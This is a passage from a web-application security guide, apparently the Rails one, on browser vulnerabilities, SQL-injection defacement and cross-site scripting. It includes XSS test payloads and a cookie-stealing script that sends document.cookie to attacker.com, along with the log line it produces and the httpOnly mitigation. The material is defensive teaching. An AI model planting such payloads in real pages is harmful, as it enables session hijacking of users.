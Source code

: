 During the second half of 2007, there were 88 vulnerabilities reported in Mozilla browsers, 22 in Safari, 18 in IE, and 12 in Opera. The Symantec Global Internet Security threat report also documented 239 browser plug-in vulnerabilities in the last six months of 2007. [Mpack](https://www.pandasecurity.com/en/mediacenter/malware/mpack-uncovered/) is a very active and up-to-date attack framework which exploits these vulnerabilities. For criminal hackers, it is very attractive to exploit a SQL-Injection vulnerability in a web application framework and insert malicious code in every textual table column. In April 2008 more than 510,000 sites were hacked like this, among them the British government, United Nations, and many more high profile targets.

#### HTML/JavaScript Injection

The most common XSS language is of course the most popular client-side scripting language JavaScript, often in combination with HTML. _Escaping user input is essential_.

Here is the most straightforward test to check for XSS:

```html
<script>alert('Hello');</script>
```

This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the `document.cookie` property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The `document.cookie` property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```html
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the **httpOnly** flag to cookies, so that `document.cookie` may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly), though.
